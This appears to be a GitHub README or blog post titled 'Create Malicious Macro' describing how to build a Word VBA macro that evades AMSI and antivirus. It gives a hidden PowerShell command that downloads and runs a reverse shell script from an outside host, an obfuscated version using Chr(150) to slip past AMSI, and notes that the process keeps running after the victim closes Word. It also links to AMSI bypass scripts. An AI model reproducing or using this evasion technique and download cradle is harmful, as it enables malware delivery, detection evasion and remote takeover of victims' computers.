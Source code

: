 ```yaml
---
title: Create Malicious Macro
author: ScriptChildie
date: 2020-10-11 12:25:00 +0000
categories: []
tags: []
---
```


# MaliciousVBA

I was reading various articles on how other go about bypassing AMSI using VBA. A great article can be found on this blog [codewhitesec](https://codewhitesec.blogspot.com/2019/07/heap-based-amsi-bypass-in-vba.html).

Instead of trying to replicate that I chose a different route. I tried using the powershell command Invoke-Experession to download [Nikhil's](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) reverse shell script.


## Running Powershell in VBA

In order to run powershell commands using VBA I have used the code published in Microsoft's Docs [(here)](https://docs.microsoft.com/en-us/office/vba/access/concepts/windows-api/determine-when-a-shelled-process-ends). The code is ideal for this project because it doesn't get flagged by the Antivirus or AMSI. It also spawns a seperate process. That's particularly helpful since our script won't terminate if the victim closes Word. 

## Powershell Command 
The command I wanted to run in this macro is the following:

```sh
Powershell.exe -WindowStyle Hidden IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.246/1234567892222.ps1')
```
This command was flagged by AMSI as malicious. After experimenting a bit with variations of this command i found out that the AMSI was flagging -WindowStyle as malicious. Splitting the string using conventional amsi bypassing techinques ("-W" + "indo" + "wStyle") was not effective. Instead I started replacing the '-' symbol with ascii character codes of the various "-" symbols. Finally Chr(150) did the trick and my reverse shell script was executed. 

The final form of the powershell command was:
```sh
Chr(112) + "ower" + "shell.exe " + Chr(150) + "WindowStyle Hidden" + "  IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.246/1234567892222.ps1')"
```
## Powershell script (Invoke-PowerShellTcp)
I have slightly modified [Nikhil's](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) script in order to avoid being detected by AMSI for powershell. Once connection is established an amsi bypass script can be used.[Here is a list of AMSI bypass scripts that can be used by S3cur3Th1sSh1t](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
